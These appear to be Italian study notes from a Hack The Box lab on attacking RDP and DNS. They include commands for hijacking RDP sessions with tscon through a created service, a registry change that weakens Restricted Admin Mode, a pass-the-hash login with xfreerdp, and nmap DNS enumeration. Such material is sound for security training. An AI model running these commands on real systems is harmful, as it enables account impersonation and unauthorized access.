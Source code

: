 Se un utente e' connesso via RDP ad una macchina compromessa da noi possiamo hijackare la sessione dell' utente per scalare privilegi e impersonare l'account.

Per impersonare un utente senza la loro password dovremo avere privilegi SYSTEM e usare **tscon.exe** per abilitare utenti a connettersi ad una altra sessione di Desktop.

`C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}`

Se siamo local admin ci sono molti modi per escalare tpo con con PsExec o Mimikatz. Un trucco semplice e' creare un servizio che runna come local system

```
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

cosi' spawna un nuovo terminale


### RDP Pass the hash
Possiamo voler avere accesso ad applicazioni o software installati che si possono usare solo con GUI.

**Restriced Admin Mode**. che e' disabilitata da default dovremmo abilitarla senno' ci da' un errore in login ovvero che non gli abbiamo dato password perche' noi passiamo hash, non password. Per disabilitarla bastera' aggiungere una Reg key.

`C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

`j4k1dibe@htb[/htb]# xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9` Login with Pass the Hash.

## Latest RDP Vulns

CVE-2019-0708, BlueKeep e' una vuln che da RCE


# Attacking DNS
DNS gira principalmente in porta 53 sia TCP che UDP.

### Enumeration
`j4k1dibe@htb[/htb]# nmap -p53 -Pn -sV -sC 10.10.110.213`

## DNS Zone Transfer
Dato che il DNS comprende piu' DNS ZOne, il server DNS utilizza la DNS Zone transfer per copiare una porzione del database di queste zone ad un altro server DNS.

